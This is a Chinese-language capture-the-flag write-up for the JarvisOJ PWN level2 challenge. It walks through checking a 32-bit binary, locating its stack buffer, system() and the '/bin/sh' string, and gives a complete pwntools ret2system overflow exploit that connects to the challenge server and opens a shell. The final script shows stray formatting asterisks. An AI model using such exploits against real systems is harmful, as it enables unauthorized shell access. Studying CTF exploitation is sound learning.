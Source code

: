 # JarvisOJ-PWN-Level2

## 0x01 文件检查
```shell
file level2 
```

![](README/CAAF3C8D-B257-430E-8EE4-F74598BCF416.png)

32位文件

```shell
checksec level2
```

![](README/6215D5AA-3598-4435-B0FD-E2C0E3516762.png)

开了NX保护
不过系统好像提供了shell脚本

## 0x02 反汇编

![](README/B8D9A190-6DBC-49F9-BFCF-3CA89EB178B1.png)

main函数调用了vulnerable_function函数
![](README/6FD18404-1A22-4A5E-9F42-17802C034A99.png)

开辟的缓冲区大小是0x88h,再加上ebp 的0x4h就跳到了返回地址了，然后就是去找system函数的地址,无论是main函数还是vulnerable_function函数都是通过call _system的方式调用system
![](README/0D263C07-70EF-4446-803B-A2549914EA65.png)


system的函数有了，然后就是调用的参数解释器了_bin_sh，shift+F12搜一下
![](README/AF702029-9070-44F1-A3C8-9C11F1541139.png)
地址是0x0804A024
当然也可以用pwntools直接从elf中提取
```python
from pwn import *
elf = ELF('./level2')
sys_addr = elf.symbols['system']
sh_addr = elf.search('/bin/sh').next()
```

栈的结构图
![](README/7797EB63-22A1-4207-87B5-670D07D3E2A0.png)

那么payload就是
```
payload = "a"*(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)
```


最后的全代码就是
```
*from*pwn *import**

conn = remote(*'pwn2.jarvisoj.com'*,9878)
conn.recvline()
payload = *"a"**(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)

conn.send(payload)

conn.interactive()


```








